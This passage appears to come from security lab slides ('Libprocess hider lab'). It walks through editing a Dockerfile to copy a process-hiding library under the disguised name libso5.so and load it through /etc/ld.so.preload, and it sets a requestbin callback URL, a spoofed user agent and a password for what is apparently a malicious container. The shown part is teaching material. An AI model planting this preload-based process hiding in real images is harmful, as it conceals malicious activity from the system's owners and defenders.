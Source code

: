 >Reminder about vi: `i` for insert mode to edit text, use arrow keys to navigate, `[ESC]` to exit insert mode, `:wq` to save(write to file) and quit

Between these two lines
```
RUN apt update && apt upgrade -y && apt install -y curl tini
COPY ./docker-entrypoint.sh /docker-entrypoint.sh
```
Add:
```
COPY ./libprocesshider/libprocesshider.so /usr/local/lib/libso5.so
RUN echo "/usr/local/lib/libso5.so" >> /etc/ld.so.preload
```
This copies in the library we just compiled and adds an entry to the ld.so.preload file to load it during "preload"

Between these two lines
```
ENV USER HANDLE
ENTRYPOINT ["/usr/bin/tini", "--", "/docker-entrypoint.sh"]
```
add and replace PASSWORD with one you made up:
```
# Replace password with a unique one of your own
ENV PW PASSWORD
```

When is all done, your Dockerfile should look like this.

```
FROM ubuntu:20.04
RUN groupadd -g 999 usertest && \
useradd -r -u 999 -g usertest usertest
RUN apt update && apt upgrade -y && apt install -y curl tini
COPY ./libprocesshider/libprocesshider.so /usr/local/lib/libso5.so
RUN echo "/usr/local/lib/libso5.so" >> /etc/ld.so.preload
COPY ./docker-entrypoint.sh /docker-entrypoint.sh
RUN chmod +x /docker-entrypoint.sh
USER usertest
# Go to requestbin.net and get a public url and replace below
ENV URL REQUESTBIN_URL
ENV UA "Mozilla/5.0 (BeOS; U; BeOS BePC; en-US; rv:1.8.1.7) Gecko/20070917 BonEcho/2.0.0.7"
# Replace HANDLE with your l33t hacker name or some other identifying designation
ENV USER HANDLE
# Replace password with a unique one of your own
ENV PW PASSWORD
ENTRYPOINT ["/usr/bin/tini", "--", "/docker-entrypoint.sh"]
```
> After pasting, hit `[ESC]`, then type `:wq`

### Slide 163 - Libprocess hider lab (cont.)

>`[ESC]` then type `:wq` if you haven't already from last slide

We're also going to edit the docker-entrypoint.sh file, it's easier to just replace the whole thing.
```
vi docker-entrypoint.sh
```
